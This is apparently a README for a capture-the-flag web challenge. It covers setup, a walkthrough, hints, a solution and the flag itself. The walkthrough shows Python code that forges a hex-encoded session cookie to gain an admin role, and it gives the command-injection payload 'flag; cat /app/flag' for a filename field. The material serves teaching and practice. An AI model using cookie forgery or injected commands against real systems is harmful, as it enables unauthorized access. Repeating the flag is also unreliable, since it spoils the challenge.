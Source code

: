 # ctf-challenge : flag_command
### Challenge Description:

"In the depths of the system lies a hidden payload, waiting to be uncovered. Many have tried to find it, but few have succeeded. The key to your success lies in the shadows—look beyond the obvious, for the hidden payload is concealed in plain sight. Only those who can see the unseen and hear the silent whispers shall prevail."

### Challenge Overview:

This challenge is a web exploitation task that combines session manipulation and command injection. Players must bypass authentication by forging a session cookie and then exploit a command injection vulnerability to retrieve the flag.

### Challenge Details:
- Category: Web Exploitation
- Difficulty: Easy/Medium
- Flag Format: DEFENSYS{...}
- Author: reda abdelali

### Setup Instructions:
##### Prerequisites
- Docker (optional, for containerization)
- Python 3.x
- Flask (pip install flask)

##### Steps to Run the Challenge
- Clone the Repository
```
git clone https://github.com/RedaAbdelali/flag_command.git
  
    cd flag_command
```
    git clone https://github.com/RedaAbdelali/flag_command.git
  
    cd flag_command

    Build and Run the Docker Container (optional):
    bash
    Copy

    docker build -t hidden-payload .
    docker run -p 5000:5000 hidden-payload

    Run the Flask Application Locally:
    bash
    Copy

    python app.py

    Access the Challenge:

        Open your browser and navigate to http://127.0.0.1:5000.

Challenge Walkthrough
Step 1: Log In

    Use the credentials admin:admin to log in.

    After logging in, you’ll see the message: "Welcome, user. Your session has been encoded for security."

Step 2: Inspect the Session Cookie

    Use browser developer tools to inspect the session cookie.

    The session cookie is a hex-encoded string of the session data (e.g., {"role": "user"} → 7b22726f6c65223a202275736572227d).

Step 3: Decode the Session Cookie

    Decode the hex string to reveal the session data.
    python
    Copy

    import binascii
    import json

    cookie = "7b22726f6c65223a202275736572227d"
    session_data = json.loads(binascii.unhexlify(cookie).decode())
    print(session_data)  # Output: {'role': 'user'}

Step 4: Forge a Session Cookie

    Encode {"role": "admin"} as a hex string to generate a valid session cookie.
    python
    Copy

    import binascii
    import json

    session_data = {"role": "admin"}
    session_cookie = binascii.hexlify(json.dumps(session_data).encode()).decode()
    print(session_cookie)  # Output: 7b22726f6c65223a202261646d696e227d

    Replace the original session cookie with the forged one using browser developer tools.

Step 5: Access the Admin Page

    With the forged session cookie, navigate to the gallery page.

Step 6: Exploit Command Injection

    Use the file upload feature to inject a command and retrieve the flag:
    Copy

    flag; cat /app/flag

Step 7: Retrieve the Flag

    The server will return the flag:
    Copy

    Contents of flag; cat /app/flag:
    DEFENSYS{c00k13_m4n1pul4t10n_4nd_c0mm4nd_1nj3ct10n}

Hints

    Hint 1: "The session holds the key. What does it represent? Think in JSON."

    Hint 2: "The session cookie is hex-encoded. Can you decode it?"

    Hint 3: "Sometimes, the answer lies in what you don’t see. Listen to the silent whispers."

    Hint 4: "The treasure is locked away, but the system’s tools can be turned against it."

Solution
Step 1: Log In

    Log in with admin:admin.

Step 2: Inspect the Session Cookie

    The session cookie is a hex-encoded string of {"role": "user"}.

Step 3: Decode the Session Cookie

    Decode the hex string to reveal the session data.

Step 4: Forge a Session Cookie

    Encode {"role": "admin"} as a hex string.

Step 5: Replace the Session Cookie

    Use browser developer tools to replace the original session cookie with the forged one.

Step 6: Access the Admin Page

    Navigate to the gallery page as an admin.

Step 7: Exploit Command Injection

    Enter the payload flag; cat /app/flag in the filename field.

Step 8: Retrieve the Flag

    The server returns the flag: DEFENSYS{c00k13_m4n1pul4t10n_4nd_c0mm4nd_1nj3ct10n}.

Files in the Repository

    app.py: The Flask application.

    templates/login.html: The login page template.

    templates/gallery.html: The gallery page template.

    Dockerfile: Docker configuration for containerization.

    requirements.txt: Python dependencies.

Author

    Name: [Your Name]

    Contact: [Your Email]

    GitHub: [Your GitHub Profile]

License

This project is licensed under the MIT License. See the LICENSE file for details.
Acknowledgments

    Thanks to [CTF Platform/Community Name] for hosting this challenge.

    Inspired by real-world web vulnerabilities.
